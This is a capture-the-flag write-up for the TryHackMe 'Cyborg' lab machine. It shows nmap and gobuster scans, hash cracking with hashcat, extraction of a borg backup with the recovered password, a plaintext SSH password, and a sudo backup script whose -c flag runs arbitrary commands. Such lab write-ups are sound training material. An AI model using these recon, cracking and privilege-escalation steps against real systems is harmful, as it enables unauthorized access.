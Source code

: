 ## Cyborg - Try Hack Me

## 1. Overveiw

**NMAP**
**Gobuster**
****
****
****
- Link to the machine: https://tryhackme.com/room/cyborgt8

## 2. Tasks
### 2.1 Scan the machine, how many ports are open?

```sh
export IP=10.10.36.161
```

First we do a **NMAP** scan:
```sh
nmap -sV -sC -oN nmap/initial $IP
```

This is the output of the nmap scan:
```sh
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 db:b2:70:f3:07:ac:32:00:3f:81:b8:d0:3a:89:f3:65 (RSA)
|   256 68:e6:85:2f:69:65:5b:e7:c6:31:2c:8e:41:67:d7:ba (ECDSA)
|_  256 56:2c:79:92:ca:23:c3:91:49:35:fa:dd:69:7c:ca:ab (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```


### 2.2 What service is running on port 22?
SSH

### 2.3 What service is running on port 80?
http

### 2.4 What is the user.txt flag?
We start by running a **gobuster**. To run a **gobuster** scan we do the following:
```sh
gobuster dir -u http://$IP/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobuster.log
```

The output of the gobuster is as follows:
```sh
===============================================================
2020/09/22 04:34:51 Starting gobuster
===============================================================
/admin                (Status: 301) [Size: 312] [--> http://10.10.36.161/admin/]
/etc                  (Status: 301) [Size: 310] [--> http://10.10.36.161/etc/]
/server-status        (Status: 403) [Size: 277]
```

The /etc domain contains a squid folder, and in that we see two files: `passwd` and `squid.conf`. The passwd file contains a md5 hash i think:

Passwd: `music_archive:$apr1$BpZ.Q.1m$F0qqPwHSOG50URuOVQTTn.`

Squid.conf: `auth_param basic program /usr/lib64/squid/basic_ncsa_auth /etc/squid/passwd
auth_param basic children 5
auth_param basic realm Squid Basic Authentication
auth_param basic credentialsttl 2 hours
acl auth_users proxy_auth REQUIRED
http_access allow auth_users`


On the admin domain we can see a blog. The guy likes music, his name is Alex and he is a fucking brit.
There is also an archive button and we can download a archive.tar file. We extract it with the following command: `tar -xvf archive.tar` and it gives us a repository to dive into.

Trying to crack the hash with john gave us the following:
```sh
john --format=md5crypt --wordlist=/usr/share/dict/words hash.txt
zeppelins..études

john --format=md5crypt --wordlist= /usr/share/wordlists/rockyou.txt hash.txt
!@#$%..sss
```

John is utterly useless here, so we use hashcat instead. Here is what I did:
```sh
hashcat --force -a 0 -m 1600 hash.txt /usr/share/wordlists/rockyou.txt
```

And what we got was the following password:
`squidward`

So we have the credentials - `music_archive:squidward`

So we look into the borgbackup stuff, maybe there is something we can use here. In the config file we have the following variables that look interesting:

id = ebb1973fa0114d4ff34180d1e116c913d73ad1968bf375babd0259f74b848d31

key = hqlhbGdvcml0aG2mc2hhMjU2pGRhdGHaAZ6ZS3pOjzX7NiYkZMTEyECo+6f9mTsiO9ZWFV
	L/2KvB2UL9wHUa9nVV55aAMhyYRarsQWQZwjqhT0MedUEGWP+FQXlFJiCpm4n3myNgHWKj
	2/y/khvv50yC3gFIdgoEXY5RxVCXhZBtROCwthh6sc3m4Z6VsebTxY6xYOIp582HrINXzN
	8NZWZ0cQZCFxwkT1AOENIljk/8gryggZl6HaNq+kPxjP8Muz/hm39ZQgkO0Dc7D3YVwLhX
	daw9tQWil480pG5d6PHiL1yGdRn8+KUca82qhutWmoW1nyupSJxPDnSFY+/4u5UaoenPgx
	oDLeJ7BBxUVsP1t25NUxMWCfmFakNlmLlYVUVwE+60y84QUmG+ufo5arj+JhMYptMK2lyN
	eyUMQWcKX0fqUjC+m1qncyOs98q5VmTeUwYU6A7swuegzMxl9iqZ1YpRtNhuS4A5z9H0mb
	T8puAPzLDC1G33npkBeIFYIrzwDBgXvCUqRHY6+PCxlngzz/QZyVvRMvQjp4KC0Focrkwl
	vi3rft2Mh/m7mUdmEejnKc5vRNCkaGFzaNoAICDoAxLOsEXy6xetV9yq+BzKRersnWC16h
	SuQq4smlLgqml0ZXJhdGlvbnPOAAGGoKRzYWx02gAgzFQioCyKKfXqR5j3WKqwp+RM0Zld
	UCH8bjZLfc1GFsundmVyc2lvbgE=


We use the following quero to extract the archives since we know the password:
```sh
borg extract ~/Documents/tryhackme/cyborg/web/home/field/dev/final_archive::music_archive
```

In the documents folkder we find his SSH password:
`alex:S3cretP@s3`




## 2.5 root.txt

Ok so we use `sudo -l` to see if there is anything we can run, and it is. The file is called backup.sh.

Here is the backup.sh script:
```sh
#!/bin/bash

sudo find / -name "*.mp3" | sudo tee /etc/mp3backups/backed_up_files.txt


input="/etc/mp3backups/backed_up_files.txt"
#while IFS= read -r line
#do
  #a="/etc/mp3backups/backed_up_files.txt"
#  b=$(basename $input)
  #echo
#  echo "$line"
#done < "$input"

while getopts c: flag
do
	case "${flag}" in
		c) command=${OPTARG};;
	esac
done



backup_files="/home/alex/Music/song1.mp3 /home/alex/Music/song2.mp3 /home/alex/Music/song3.mp3 /home/alex/Music/song4.mp3 /home/alex/Music/song5.mp3 /home/alex/Music/song6.mp3 /home/alex/Music/song7.mp3 /home/alex/Music/song8.mp3 /home/alex/Music/song9.mp3 /home/alex/Music/song10.mp3 /home/alex/Music/song11.mp3 /home/alex/Music/song12.mp3"

# Where to backup to.
dest="/etc/mp3backups/"

# Create archive filename.
hostname=$(hostname -s)
archive_file="$hostname-scheduled.tgz"

# Print start status message.
echo "Backing up $backup_files to $dest/$archive_file"

echo

# Backup the files using tar.
tar czf $dest/$archive_file $backup_files

# Print end status message.
echo
echo "Backup finished"

cmd=$($command)
echo $cmd

```
